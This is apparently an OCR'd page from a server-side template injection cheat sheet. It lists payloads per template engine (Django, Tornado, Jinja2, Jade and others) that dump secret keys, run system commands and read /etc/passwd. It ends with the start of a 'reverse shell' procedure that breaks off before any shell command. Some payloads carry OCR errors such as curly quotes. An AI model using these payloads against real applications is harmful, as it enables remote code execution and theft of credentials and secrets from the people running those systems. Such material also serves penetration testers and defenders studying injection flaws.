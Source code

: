 ```python
{% debug %}
{{settings.SECRET_KEY}}
```
### `Tornado (Python)`
```python
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
### `Mojolicious (Perl)`
```perl
<%= perl code %>
<% perl code %>
```
### `Flask/Jinja2: Identify`
```python
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
### `Flask/Jinja2` 
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ get_flashed_messages.__globals__.__builtins__.open(“/etc/passwd”).read() }}
```
### `Jade`
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
### `Razor (.Net)`
```
@(1+2)
@{// C# code}
```
### SSTI to reverse shell
#### [1] Try this, everywhere the app is taking input from the user and reflecting the output.

```python
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
{{config}}
```
#### [2] if the app reflects the output as `49`.Then there might be a RCE possible.
#### [3] now encode the payload in basse64.
